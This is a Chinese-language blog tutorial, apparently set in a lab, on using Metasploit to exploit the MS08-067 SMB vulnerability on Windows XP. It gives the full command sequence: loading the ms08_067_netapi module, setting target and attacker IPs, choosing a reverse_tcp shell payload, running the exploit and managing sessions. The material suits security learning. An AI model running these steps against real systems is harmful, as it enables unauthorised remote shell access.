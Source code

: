 ```yaml
---
title: "使用msf渗透攻击XP系统"
date: 2020-02-21T17:42:53+08:00
author: 姚先生
categories: ['Kali']
tags: ['安全渗透']
---
```


metasploit框架渗透攻击XP系统

<!--more-->



##  exploit渗透攻击模块的整体使用流程

![](http://junmoxiao.org.cn/20200221174807.png)

##  ms08-067漏洞攻击实施步骤

* 关闭XP系统防火墙

  ![](http://junmoxiao.org.cn/20200221182247.png)

* 搜索ms08-067漏洞的相关模块

~~~
search ms08-067
~~~

* 加载渗透攻击模块

  ~~~
  use exploit/windows/smb/ms08_067_netapi
  ~~~

  * 查询渗透攻击相关说明

    ~~~
    info
    ~~~

    > 该模块利用路径规范化中的解析缺陷服务器服务通过NetAPI32.dll的代码。这个模块是能够绕过某些操作系统和Service Pack上的NX。必须使用正确的目标来阻止服务器服务（以及与十多个其他对象在同一过程中）崩溃。Windows XP目标似乎可以处理多个成功的利用事件，但是2003目标通常会崩溃或在随后的尝试中挂起。这个只是该模块的第一个版本，完全支持NX旁路在2003年以及其他平台上，仍在开发中。

* 查询可用参数

~~~
show options
~~~

* 设置目标IP地址

  ~~~
  set RHOSTS 192.168.1.54
  ~~~

  * 查询可用目标机类型

    show targets

    db_nmap -O 192.168.1.54

* 设置目标机类型

  ~~~
  set target 34
  ~~~

>payload又称为攻击载荷，主要是用来建立目标机与攻击机稳定连接，可返回 shell，也可以进行行程序注入等

* 找一个 payload，获取shell远程权限后，进行远程执行命令

~~~
search /windows/shell type:payload
set payload windows/shell/reverse_tcp
~~~

* 设置源IP地址和端口用来接收返回的shell

~~~
set LHOST 192.168.1.130
~~~

* 执行渗透攻击

~~~
run
~~~

![](http://junmoxiao.org.cn/20200221184921.png)

* Run in the context of a job 后台执行 渗透目标完成后会创建一个 session 我们可以通过 session 连接目标主机

  ~~~
  exploit -j
  ~~~

  * 通过ID进行访问远程目标机

    ~~~
     sessions -i ID
    ~~~

* 退出会话将会话保存到后台

  ~~~
  background
  ~~~

  

## 渗透攻击步骤

1、查找 CVE公布的漏洞  search name: 

2、查找对应的 auxiliary/exploit模块 

3、查询信息和配置模块参数 

4、添加 payload后门返回shell

 5、执行 exploit 开始攻击 

 6、建立sessions会话连接

 7、执行命令和后台运行[可选]

